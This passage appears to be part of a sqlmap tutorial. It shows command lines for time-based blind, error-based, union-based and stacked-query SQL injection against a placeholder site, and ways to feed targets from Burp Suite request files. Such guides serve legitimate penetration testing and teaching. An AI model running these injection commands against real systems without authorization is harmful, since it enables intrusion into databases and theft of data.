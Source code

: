 #### Time-based Blind

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --technique=T
```

Time-based blind injections rely on the database pausing for a specified amount of time to infer results.

#### Error-based

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --technique=E
```

Error-based techniques extract data through error messages generated by the database.

#### Union-based

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --technique=U
```

UNION-based attacks leverage the SQL UNION operator to combine results from injected queries with legitimate queries.

#### Stacked Queries

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1" --technique=S
```

This technique uses database-specific features to stack multiple SQL statements in a single request.

### Target Specification

SQLmap offers multiple ways to specify targets:

#### Direct URL

```bash
sqlmap -u "http://vulnerable-site.com/page.php?id=1"
```

#### Request File

Save an HTTP request to a file using a proxy like Burp Suite, then use it with SQLmap:

```bash
sqlmap -r request.txt
```

#### Burp Suite Integration

Directly use a request from Burp Suite's history or intruder:

```bash
# Export the request from Burp to a file, then:
sqlmap -r burp_request.txt
```
